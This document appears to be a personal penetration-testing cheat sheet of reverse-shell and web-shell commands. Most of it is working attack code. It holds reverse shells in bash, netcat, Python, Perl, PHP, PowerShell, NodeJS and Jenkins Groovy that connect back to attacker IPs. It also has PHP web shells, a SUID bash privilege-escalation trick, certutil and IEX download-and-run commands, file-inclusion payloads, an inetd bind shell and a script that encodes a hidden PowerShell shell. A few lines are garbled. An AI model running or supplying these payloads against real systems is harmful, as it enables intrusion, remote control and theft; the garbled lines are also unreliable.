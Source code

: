 ## RevShells

#### Use ports that they're using. 53 and 139 are gold for windows. 80 and 443 are gold for linux.

#### BASH

```bash
bash -i >& /dev/tcp/192.168.45.204/22 0>&1

echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/pwned\nchmod 4777 /tmp/pwned' >> full-checkup.sh
chmod +x full-checkup.sh
/tmp/pwned -p
```

Very fucking reliable.

```bash
busybox nc 192.168.45.204 1234 -e sh
busybox nc 192.168.45.204 80 -e /bin/sh
```

#### PHP

```bash
<?php file_get_contents('/etc/passwd'); ?>
php -r '$sock=fsockopen("192.168.45.204", 60001);exec("/bin/sh -i <&3 >&3 2>&3");'

cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php shell.php
python3 -m http.server
nc -nlvp 443
<?php system("wget http://192.168.45.204/shell.php -O /tmp/shell.php;php /tmp/shell.php");?>

cp /usr/share/webshells/php/php-reverse-shell.php .
python3 -m http.server 800
nc -nlvp 443
&cmd=wget http://192.168.119.168:800/php-reverse-shell.php -O /tmp/shell.php;php /tmp/shell.php

 &cmd=whoami or ?cmd=whoami
<?php shell_exec($_GET["cmd"]);?>
<?php system($_GET["cmd"]);?>
<?php echo passthru($_GET['cmd']); ?>
<?php echo exec($_POST['id']); ?>
<?php system($_GET['cmd']); ?>
<?php passthru($_REQUEST['cmd']); ?>
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

cp /usr/share/webshells/php/php-reverse-shell.php .
python3 -m http.server 800
nc -nlvp 443
&cmd=wget http://192.168.119.168:800/php-reverse-shell.php -O /tmp/shell.php;php /tmp/shell.php

echo '<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>' > shell.php
shell.php&cmd=
```

python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ip",22));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
nc -nlvp 22
or

192.168.49.140

#### NetExec (Pwn3d! = Shell)

```bash
netexec smb $ip -u $user -p $pass -X 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AY...AKAApAA=='
```

#### Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.163",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Netcat

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.163 80 >/tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 80 >/tmp/f

busybox nc $ip 5000 -e /bin/bash

certutil.exe -urlcache -split -f http://192.168.45.195:443/nc.exe C:\Windows\Tasks\nc.exe & C:\Windows\Tasks\nc.exe -e cmd.exe 192.168.45.195 80
```

#### Perl

```bash
perl -e 'use Socket:$i="192.168.45.163";$0=443;socket(S,PF INET,SOCK STREAM, getprotobyname("tcp")); if(connect (S, sockaddr_in($p,inet_aton ($i)))) {open(STDIN, ">&S") ; open (STDOUT, ">&S") ;open (STDERR, ">&S") ;exec("/bin/sh -i"T;};'
```

#### CMD

```bash
'echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.45.204:8000/rev.ps1") | powershell 
-noprofile'
````

General:

- “Curl ip/reverse.sh | bash” not a bad idea.
- wget'ing to tmp, chmod +x, then bash -c /tmp/pwn.sh

#### PsExec

If you have creds and can't get psexec onto the box, try it locally to get a shell

```bash
proxychains psexec.py USERC:USERCishere@10.11.1.50 cmd.exe
```

#### Bypass Python 2 input()

```bash
__import__('os').system('/bin/bash -p')
```

#### Use ConPty Windows Shell

Make sure to copy raw file whenever copy-pasting from GitHub.

WHENEVER YOU'RE SENDING A POST REQUEST, INCLUDE THE CONTEXT-TYPE HEADER, like 'Content-Type: application/x-www-form-urlencoded'.

```bash
include=echo+WAZZUP%3b
include=/etc/passwd
include=http://10.10.14.8:8000/fake
include=http://10.10.14.8:8000/reverse-shell.php
include=reverse-shell.php
```
When testing for a php reverse shell, you can make a simple php file that says "echo WAZZUP;" and check whether "WAZZUP" is returned in the response.

If that doesn't work, you could have him connect back to us so that we could crack the hash.

```bash
cat conpty.php
stty raw -echo; (stty size; cat) | nc -lvnp 8888
system("powershell IEX(IWR http://10.10.14.11:53/con.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.11 8888");
```

#### Inet Bind Shell ??

```bash
"echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf"
nc -nv $ip 31337
```

#### Windows nc.exe

This is a reliable reverse shell from Windows computer. If you can upload a file, try msfvenom payload, and if that doesn't work, upload a nc.exe binary and try 

```bash
.\nc.exe -nv 192.168.XX.XX 445 -e cmd.exe
```

#### Windows

One reliable revshell is the powershell encoded one on revshells.

#### Two-Parter via File Upload Vuln

Upload netcat.exe, then php file that will trigger it.

```php
<?php
system('netcat.exe -vv 192.168.4.178 443 -e cmd.exe');
?>
```

#### Javascript ( NodeJS ) SSTI

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(3000, "192.168.45.204", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

#### Groovy-based - Jenkins Console

```bash
# Linux
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.45.204/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

# Windows
def cmd = "cmd.exe /c dir".execute(); println("${cmd.text}");
# Windows
String host="localhost"; int port=8044; String cmd="cmd.exe"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new So);
```

#### Encoded Powershell from Local

```py
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```